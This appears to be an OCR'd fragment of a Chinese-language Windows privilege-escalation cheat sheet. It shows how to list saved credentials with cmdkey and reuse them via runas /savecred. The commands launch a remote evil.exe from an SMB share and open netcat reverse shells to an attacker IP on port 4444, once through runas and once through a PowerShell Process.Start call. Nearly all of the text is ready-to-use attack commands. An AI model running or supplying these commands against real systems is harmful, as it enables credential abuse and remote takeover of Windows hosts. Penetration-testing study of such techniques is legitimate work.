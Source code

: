 	使用cmdkey列出机器上存储的凭据
	>cmdkey /list
	Currently stored credentials:
	 Target: Domain:interactive=WORKGROUP\Administrator
	 Type: Domain Password
	 User: WORKGROUP\Administrator
	可以使用runas的/savecred参数以使用保存的凭据。以下示例通过 SMB 共享调用远程可执行文件
	>runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
	>runas /savecred /user:Administrator "cmd.exe /k whoami"
	>C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"

	$secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
	$mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
	$computer = "<hostname>"
	[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
